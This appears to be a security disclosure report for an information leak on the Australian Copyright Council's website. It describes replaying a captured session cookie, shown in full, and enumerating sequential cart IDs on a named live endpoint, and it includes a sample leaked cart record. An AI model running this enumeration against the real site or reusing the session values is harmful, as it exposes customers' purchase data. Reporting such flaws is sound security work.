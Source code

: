 # About Australia Copyright council Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie: __stripe_mid=23f6c489-683b-4271-93f2-01b901c117e3232316; csrftoken=d6YCcSd9CRQ2iSWhBgvtp7Vgo0wXcUUIHRwmrpB23VpsuI8xyQYfYNGHOIiPgwBJ
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: purchase content, date_created,price.

> Request method: GET, information can be obtained by traversing the constructed basket_pk, such as "3289", "3290"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params |
|--------------|---|------------|
| yizhimuzhu666|https://www.copyright.org.au/check_cart_status/?cart_id=3289|card_id=3289|



### Leaked packet cases 
``` 
{
    "status": "200",
    "msg": "cart is open",
    "cart": {
        "status": "Open",
        "basket_pk": 3289,
        "reference": null,
        "customer": "error",
        "customer_number": null,
        "sale_rep": "None",
        "date_created": "2024-02-05",
        "date_submitted": null,
        "lines": [
            {
                "line_pk": 5894,
                "title": "Copyright Essentials",
                "isbn": "9781920778415",
                "quantity": 2,
                "discount": 0,
                "firm_sale": 0,
                "price": "60.00",
                "url": "/browse/book/Australian-Copyright-Council-Staff-Copyright-Essentials-9781920778415",
                "created": "2024-02-05 09:04:38.032102+00:00"
            }
        ],
        "discount_applied": 0,
        "is_book_product": true
    }
}
```